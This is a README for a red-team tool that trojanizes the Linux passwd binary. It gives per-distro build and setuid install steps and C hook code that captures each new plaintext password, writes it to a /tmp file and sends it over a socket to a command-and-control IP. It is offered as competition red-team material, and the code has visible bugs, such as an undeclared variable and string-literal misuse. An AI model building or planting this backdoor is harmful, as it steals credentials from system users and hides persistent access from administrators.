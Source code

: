 # Retreiver Passwd Shim

#### What is this
This is a basic Linux binary shim on the passwd binary from the shadow package. This will grab new passwords while they are still plaintext in the binary and remotely send it back to a C2. It will also write to a file in the /tmp directory as a failover method. 

#### What does it work on? (Tested)

Ubuntu - 18.04, 20.04 <br />Centos - 8 <br />Debian - 11 <br />  

#### What is this intended for 
This is intended for Red Teaming in a Competition environment.


## Installation Instructions
#### Ubuntu - 18.04 / 20.04
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### Debian - 11
1. clone shadow git
2. sudo apt-get build-dep shadow
3. run ./autogen.sh
4. Add Hook (See Hooking passwd.c)
5. sudo make all
6. sudo chmod 4755 passwd

#### CentOS - 8
1. clone shadow git
2. yum deplist passwd | awk '/provider:/ {print $2}' | sort -u | xargs yum -y install
3. yum install -y autoconf gettext-devel automake 
4. dnf group install "Development Tools"
5. run ./autogen.sh --without-selinux
6. Add Hook (See Hooking passwd.c)
7. sudo make all
6. sudo chmod 4755 passwd

#### Troubleshooting
1. Try "make clean" if you are not getting the changed code
2. Building from apt-source kinda sucks don't do it if you don't have to


## Hooking the passwd.c file

#### At the Top
Imports needed 

    #include <sys/socket.h> 
    #include <arpa/inet.h> 
    #include <unistd.h> 
    #include <string.h> 

Definitions

    #define PORT <port> 
    #define IP "<ip_address>" 


#### Adding the Hook
At line number ~266, right above the code that will salt the password, we add a line to run the function. 

    /* Hook to grab password */
	writetofile(pass);

    /*
	 * Encrypt the password, then wipe the cleartext password.
	 */
	salt = crypt_make_salt (NULL, NULL);

    

#### Adding the Function 

At line ~210 right above the new_password function is where I put this function although it just needs to be above where it is called. 

    int writetofile (char *password){

        // Get UID
        uid_t uid = geteuid();
        struct passwd * pw = getpwuid(uid);
        
        // Create File + Variables
        FILE * fptr;
        fptr = fopen("/tmp/18432443.tmp", "a"); // Remove for ultra sneak
        char * user;
        char * msg;
        char * msg2;
        char * colon;

        // Write Shit
        if (pw) {
            user = pw->pw_name;
        }
        else {
            user = "unknown";
        }

        if (fptr != NULL) {

            fprintf(fptr, "%s:%s\n", name, password);
            
            // // Send stuff // //
            // Make Socket
            int sock = 0, valread;
            struct sockaddr_in serv_addr;
            
            // Build String
            strcpy(user, name);
            msg = ("%s", password);
            msg2 = ("%s:", user);
            colon = ':';
            strncat(msg2, &colon, 1);
            strcat(msg2, msg);

            char buffer[1024] = {0};
            fclose(fptr);

            // Error Handling
            if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
                // printf("\n Socket creation error \n");
                return -1;
            }

            serv_addr.sin_family = AF_INET;
            serv_addr.sin_port = htons(PORT);
            
            struct timeval timeout;
            timeout.tv_sec = 3;
            timeout.tv_usec = 0;

            if (setsockopt (sock, SOL_SOCKET, SO_RCVTIMEO, &timeout, sizeof timeout) < 0)  {
                // puts("Setsockopt failed\n");
                return -1;
            }
            
            if (setsockopt (sock, SOL_SOCKET, SO_SNDTIMEO, &timeout, sizeof timeout) < 0) {
                // puts("setsockopt failed\n");
            }


            // Error Handling
            if(inet_pton(AF_INET, IP, &serv_addr.sin_addr)<=0) {
                // puts("\nInvalid address/ Address not supported \n");
                return -1;
            }
            if (connect(sock, (struct sockaddr *)&serv_addr, sizeof(serv_addr)) < 0) {
                return -1;
            }

            // Send Message
            send(sock , msg2 , strlen(msg2) , 0 );
            return 0;
        }

        return 0;
    }
